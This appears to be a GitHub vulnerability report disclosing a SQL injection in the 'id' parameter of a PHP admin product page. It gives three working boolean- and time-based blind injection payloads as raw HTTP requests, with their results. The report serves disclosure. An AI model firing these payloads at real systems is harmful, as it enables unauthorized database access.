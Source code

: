 BUG_Author:Peony

Vulnerability File: /php-sts/admin/products/manage_product.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and 'a'='a

```
GET /php-sts/admin/products/manage_product.php?id=1%27%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fanr1ghd9tvb782oh39fmqckfr
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/graywar1/bug_report/blob/main/sql1.png)

Payload2:id=1' and 'a'='z

```
GET /php-sts/admin/products/manage_product.php?id=1%27%20and%20%27a%27=%27z HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fanr1ghd9tvb782oh39fmqckfr
Connection: close
```

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/graywar1/bug_report/blob/main/sql2.png)

Payload3:id=1' and (select 1 from (select(sleep(10)))x) and 'q'='q

```
GET /php-sts/admin/products/manage_product.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))x)%20and%20%27q%27=%27q HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fanr1ghd9tvb782oh39fmqckfr
Connection: close
```

The server response time is 10 seconds

![image](https://github.com/graywar1/bug_report/blob/main/sql3.png)
